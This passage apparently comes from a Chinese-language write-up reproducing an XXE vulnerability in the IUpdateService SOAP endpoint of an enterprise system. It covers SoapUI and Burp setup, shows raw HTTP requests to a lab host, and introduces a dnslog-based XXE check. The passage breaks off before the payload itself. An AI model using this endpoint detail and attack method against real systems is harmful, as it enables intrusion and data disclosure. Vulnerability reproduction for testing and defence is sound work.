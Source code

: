 填入工程名和 `WSDL` 地址，`WSDL` 地址为：
```
http://192.168.50.13:8888/uapws/service/nc.uap.oba.update.IUpdateService?wsdl
```

<div align=center ><img width="800" src="https://user-images.githubusercontent.com/84888757/223004162-1516ef06-d0e5-44df-a99f-e0eb589e3983.png" /></div>



点击OK后就已经创建好一个工程了，`SoapUI` 工具会自动解析 `WSDL` 里面接口名和接口请求信息。

然后我们就可以对接口进行测试，需要双击接口请求信息：`Request1`，这时候会看到该接口的请求报文信息。

在此处需要注意的是：接口 `getResult` 的请求中 `?` 表示为我们需要测试的参数，如下图所示：

![image](https://user-images.githubusercontent.com/84888757/223006567-6a7ad593-d316-4a7a-b82d-9becf10186fb.png)

我们直接在这里发送请求看一下：

![image](https://user-images.githubusercontent.com/84888757/223006579-32d6ed3a-8b9f-43fc-a8c6-c1d256f8e384.png)

在 `SOAPUI` 挂上burp代理：

![image](https://user-images.githubusercontent.com/84888757/223006596-014750d4-4ddf-4d02-9793-4848669bba44.png)

使用burp发送数据包：

```
POST http://192.168.50.13:8888/uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:getResult"
Content-Length: 327
Host: 192.168.50.13:8888
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService">
   <soapenv:Header/>
   <soapenv:Body>
      <iup:getResult>
         <!--Optional:-->
         <iup:string>gero et</iup:string>
      </iup:getResult>
   </soapenv:Body>
</soapenv:Envelope>
```

![image](https://user-images.githubusercontent.com/84888757/223006687-ab55fcca-03dc-4f3f-b509-5e98b13c53e6.png)


## 2.2 dnslog验证
我们替换为 `xxe` 的 `payload`，用 `dnslog` 证明一下
```
POST http://192.168.50.13:8888/uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:getResult"
Content-Length: 416
Host: 192.168.50.13:8888
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService">
   <soapenv:Header/>
   <soapenv:Body>
```